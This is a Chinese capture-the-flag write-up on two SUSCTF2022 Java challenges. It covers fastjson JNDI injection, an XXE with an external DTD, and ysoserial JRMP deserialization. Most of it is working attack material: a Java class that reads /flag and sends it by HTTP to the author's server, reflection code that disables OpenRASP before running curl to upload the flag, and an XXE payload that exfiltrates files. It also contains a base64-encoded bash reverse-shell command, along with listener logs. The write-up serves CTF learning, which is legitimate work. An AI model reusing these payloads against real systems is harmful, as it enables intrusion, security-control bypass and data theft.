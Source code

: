 # SUSCTF2022的两道Java复现

## 前言

比赛的时候没有看，一是因为摸了整个寒假，Java是一点想不起来了。。。二就是因为队里的心心直接秒了。。

不过这两道fastjson似乎都有一些奇奇怪怪的问题，复现的话从中学习一些东西就行了。

## baby gadget v1.0

admin admin123登录后台后给了lib，然后有个fastjson反序列化的输入，根据题目意思是自己找链子但是似乎网上的链子也能打通：

```
inputtext={"@type":"org.apache.xbean.propertyeditor.JndiConverter","AsText":"ldap://121.5.169.223:39543/Evil"}
```

复现的时候踩了很多坑，主要的问题就是一开始没想到外带，直接执行命令不成功，没法确实class到底加载成功没有，试了一下Java执行DNGLOG也没反应。。

### forkAndExec绕rasp

官方解法是绕过命令执行的失败，直接执行命令会有这个：

```
location.href="https://rasp.baidu.com/blocked2/?request_id=c5aa80028dda444da456f0a16663a09b"
```

查一下rasp就知道它是`Runtime application self-protection`，也是一种防御。

可以拿`forkAndExec`来绕过rasp，但是网上找到的我本地都运行不了，说`launchMechanism`字段不存在，暂时没搞明白咋回事。

### URL外带

第二种就是URL直接外带出来了：

```java
import java.io.BufferedReader;
import java.io.FileReader;
import java.net.HttpURLConnection;
import java.net.URL;
public class Evil {
    public Evil() throws Exception{
        String flag = "";
        String str;
        BufferedReader in = new BufferedReader(new FileReader("/flag"));
        while ((str = in.readLine()) != null) {
            flag += str;
        }
        System.out.println(flag);
        URL url = new URL("http://121.5.169.223:39454/?flag="+flag);
        HttpURLConnection con = (HttpURLConnection) url.openConnection();
        con.setRequestMethod("GET");

        //添加请求头
        con.setRequestProperty("User-Agent", "feng");
        int responseCode = con.getResponseCode();
    }
}

```

发起get请求直接把flag外带出来。

启动ldap server：

```shell
root@VM-0-6-ubuntu:~/java/jndi# java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer "http://121.5.169.223:39777/#Evil" 39543
Listening on 0.0.0.0:39543
Send LDAP reference result for Evil redirecting to http://121.5.169.223:39777/Evil.class
Send LDAP reference result for Evil redirecting to http://121.5.169.223:39777/Evil.class


```

Evil.class：

```shell
root@VM-0-6-ubuntu:~/java/jndi# python3 -m http.server 39777
Serving HTTP on 0.0.0.0 port 39777 (http://0.0.0.0:39777/) ...
124.71.187.127 - - [02/Mar/2022 16:07:49] "GET /Evil.class HTTP/1.1" 200 -
124.71.187.127 - - [02/Mar/2022 16:24:27] "GET /Evil.class HTTP/1.1" 200 -


```

```shell
root@VM-0-6-ubuntu:~# nc -lnvp 39454
Listening on [0.0.0.0] (family 0, port 39454)
Connection from 124.71.187.127 43984 received!
GET /?flag=SUSCTF{Find_FastjSON_gadGet_is_so_Easy} HTTP/1.1
User-Agent: feng
Cache-Control: no-cache
Pragma: no-cache
Host: 121.5.169.223:39454
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive


```



### 关闭rasp

nepnep战队的姿势，学习一波

```java
import java.io.BufferedReader;
import java.io.FileReader;
import java.net.HttpURLConnection;
import java.net.URL;
public class Evil {
    public Evil() throws Exception{

            Class<?> clz = Thread.currentThread().getContextClassLoader().loadClass("com.baidu.openrasp.config.Config");
            java.lang.reflect.Method getConfig = clz.getDeclaredMethod("getConfig");
            java.lang.reflect.Field disableHooks = clz.getDeclaredField("disableHooks");
            disableHooks.setAccessible(true);
            Object ins = getConfig.invoke(null);

            disableHooks.set(ins,true);
            Runtime.getRuntime().exec(new String[]{"/bin/sh","-c","curl http://121.5.169.223:39454 -F file=@/flag"});

    }
}
```

学习一波这个思路，这个思路很强，因为openrasp使用`javaagent` 机制来实现。在服务器启动时，可动态的修改Java字节码，实际上是注入到了内存中的，可以利用反射来修改配置信息，实现关闭rasp。nb学习了。





## baby gadget v2.0

首先是个xxe，外带出来：

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://121.5.169.223:39801/evil.dtd">
%remote;]>
<user>
<number>
a
</number>
<name>
b
</name>
</user>
```

```xml
root@VM-0-6-ubuntu:~# cat evil.dtd
<!ENTITY % file SYSTEM 'file:///hint.txt'>
<!ENTITY % payload "<!ENTITY &#37; send SYSTEM 'http://121.5.169.223:39802/?content=%file;'>">
%payload;
%send;

```

```
root@VM-0-6-ubuntu:~/java/jndi# nc -lvvp 39802
Listening on [0.0.0.0] (family 0, port 39802)
Connection from ecs-159-138-123-251.compute.hwclouds-dns.com 55556 received!
GET /?content=58f9f32d633491243ee01cbe86f69be9.zip HTTP/1.1
User-Agent: Java/1.8.0_191
Host: 121.5.169.223:39802
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive



```

下载`58f9f32d633491243ee01cbe86f69be9.zi`后得到一些信息：

```
JRE: 
8u191
Dependency:
commons-collections3.1
```

然后是一些类似需要逆向的代码，大致看看是POST似乎访问`/bf2dcf6664b16e0efe471b2eac2b54b2`传参数0然后会对它进行base64解码一次然后再来一次黑名单过滤，然后反序列化。

黑名单：

```
"java.util.Hashtable"
"java.util.HashSet"
"java.util.HashMap"
"javax.management.BadAttributeValueExpException"
"java.util.PriorityQueue"
```



非预期就是可以直接拿JRMP去打。

```shell
java -jar ysoserial.jar JRMPClient 121.5.169.223:39555|base64 -w 0
java -cp ysoserial.jar ysoserial.exploit.JRMPListener  39555 CommonsCollections6 "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8jEuNS4xNjkuMjIzLzM5Nzc3IDA+JjE=}|{base64,-d}|{bash,-i}"
```

> 1. 攻击方在自己的服务器使用`exploit/JRMPListener`开启一个rmi监听
> 2. 往存在漏洞的服务器发送`payloads/JRMPClient`，payload中已经设置了攻击者服务器ip及JRMPListener监听的端口，漏洞服务器反序列化该payload后，会去连接攻击者开启的rmi监听，在通信过程中，攻击者服务器会发送一个可执行命令的payload（假如存在漏洞的服务器中有使用`org.apacje.commons.collections`包，则可以发送`CommonsCollections`系列的payload），从而达到命令执行的结果。

![image-20220302192207067](SUSCTF2022的两道Java复现.assets/image-20220302192207067.png)

预期解的话就是自己挖链子，对于CC5或者CC6来说，ban掉的只是入口处的类，再另找能触发到比如hashCode函数的起始链就可以了。



## 总结

当时预期解在这种题目环境下比较奇怪。。。非预期反而感觉很有意思hhh。后续再把JRMP看看了。